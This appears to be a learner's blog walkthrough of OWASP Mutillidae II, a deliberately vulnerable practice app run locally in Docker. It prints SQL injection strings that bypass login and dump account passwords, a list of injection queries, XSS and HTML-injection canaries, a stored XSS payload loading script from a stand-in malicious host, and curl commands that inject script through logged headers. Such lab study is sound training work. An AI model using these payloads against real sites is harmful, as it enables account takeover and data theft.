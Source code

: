 ```yaml
---
categories:
  - security
  - learning
title: "Learning web app secuiry with OWASP Mutillidae II - part 1"
slug: "mutillidae-ii-part-1"
date: "2018-01-23T14:41:50+01:00"
tags:
    - security
    - owasp
    - mutillidae
    - pentesting
cover:
  image: /img/2017/002/owasp_full_logo.png
  caption: OWASP logo
  style: normal
draft: false
---
```

Learning web app secuiry with OWASP Mutillidae II - part 1
-------------------------------------------------

# iNSTALLATION

Run `nowasp` container:
```
docker run -p 8888:80 -p 3306:3306 citizenstig/nowasp
```

Go to [http://localhost:8888/](http://localhost:8888/), and build the DB.


# eXCERCICES:

## OWASP 2013

### A1 - Injection (SQL) - SQLi Extract data - User info

Submit the form with such query in the `Name` field:
```
admin'-- AND 'password='password'
```

Response:
```
Username=admin
Password=adminpass
Signature=g0t r00t?
```

### A1 - Injection (SQL) - SQLi Bypass authentication - Login

You can use the same query in the `Name` field:
```
admin'-- AND 'password='password'
```

Response:
```
Logged In Admin: admin (g0t r00t?)
```

### A1 - Injection (SQL) - SQLi Insert Injection - Add to your blog


*Stored Cross-Site Scripting*
```
<script src="http://malicious.site.com/bad.js"></script>
```
Once saved, check your browser's Network requests using e.g. Developer tools:

{{< gallery title="Stored Cross-Site Scripting" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-Stored_Cross-Site_Scripting.png" thumb="-thumb" size="1311x204" caption="Stored Cross-Site Scripting" >}}
{{< /gallery >}}

{{< pswp-init >}}


get MySQL version:
```
'+SUBSTRING(@@version,1,10)+'
```

Red herrings: queries that don't fail but don't give much info back:
```
'+(SELECT IF(1=1,'true','false'))+'
'+(SELECT password FROM accounts WHERE username="root")+'
'+SUBSTRING((SELECT password FROM accounts WHERE username="root"),1,10)+'
'+(SELECT table_name FROM information_schema.tables WHERE table_schema = "nowasp.accounts")+'
'+(SELECT column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts")+'
'+SUBSTRING(SELECT table_name, column_name FROM information_schema.columns WHERE table_schema = "nowasp.accounts",1,50)+'
'+SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name="accounts"),1,50)+'
aaa', now()); SELECT * FROM accounts; --
aaa', IF(1=1,'true','false'));#
aaa', IF(1=1, SELECT * FROM members, 'false'));#
'+ (SELECT password FROM accounts WHERE login='admin' ) +'
'+(SELECT password FROM members WHERE login="admin")+'
'+(SELECT IF(1=1,'true','false'))+'
admin'-- AND SELECT * FROM accounts;
```


### A1 - Injection (SQL) - SQLi Insert Injection - Register for an Account

HTMLi - 
add this to the registration signature:
```html
<CANARY={}""()'';#$--/>1
```
or simply add XSS
```
<CANARY={}""()'';#$--/><script>alert("welcome");</script>
```
Then log in as newly created user and see that `1` is visible next to the user name in top menu:

{{< gallery title="HTMLi" >}}
{{< figure link="/img/2017/002/OWASP-2013-A1-Add_to_your_blog-HTMLi.png" thumb="-thumb" size="1419x559" caption="HTMLi" >}}
{{< /gallery >}}

{{< pswp-init >}}


### A1 - Injection (SQL) - SQLi Insert Injection - View Captured Data

Here's one of my favs:
*Application Log Injection:*
You can send a dummy HTTP request with `User-Agent` header containing JS:
```bash
curl http://localhost:8888/index.php?page=register.php -H "User-Agent: <script>alert('pwnd with Application Log Injection');</script>"  &> /dev/null
```

or abuse the fact that the `endpoint` part of the URL is interpretted and logged so that we can include JS in it:
```bash
curl "http://localhost:8888/<script>alert('query_param');</script>" &> /dev/null
```

Once you send the request, then go to the [http://localhost:8888/index.php?page=show-log.php](http://localhost:8888/index.php?page=show-log.php) the alert pop-ups will appear.

*NOTES:*

* can you create an account for `root` user???


http://localhost:8888/index.php?page=capture-data.php
```
curl http://localhost:8888/index.php?page=capture-data.php&showhints=1 -H "PHPSESSID: 5hdie94hhe7cc50pqsbvujqkb3"
```
